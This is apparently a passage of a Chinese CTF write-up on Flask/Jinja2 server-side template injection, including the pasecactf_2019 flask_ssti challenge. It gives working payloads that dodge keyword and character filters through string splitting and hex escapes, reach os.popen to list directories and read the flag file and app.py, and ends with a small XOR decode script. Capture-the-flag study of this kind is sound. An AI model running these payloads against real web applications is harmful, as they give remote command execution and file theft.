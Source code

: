 应该过滤了flag，import，os等关键词。

利用字符串拼接找目录

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

读flag：

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /this_is_the_fl"+"ag.txt").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

### [pasecactf_2019]flask_ssti

`.`和`_`和`''`被过滤了，可以十六进制绕过

`{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()}}`

读app.py

`{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("ls")["read"]()}}`



`{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[91]["get\x5fdata"](0, "app\x2Epy")}}`

解法一：

flag是在config里面

```python
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

flag = '-M7\x10wI`7k\x07!5r\x0eF\x0enS(D\x10\x1d\x0c\x17x?\x01c\x02\\@\x0cqW"{A<@\x0f\x19G'

print(encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3',
      'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'))

```
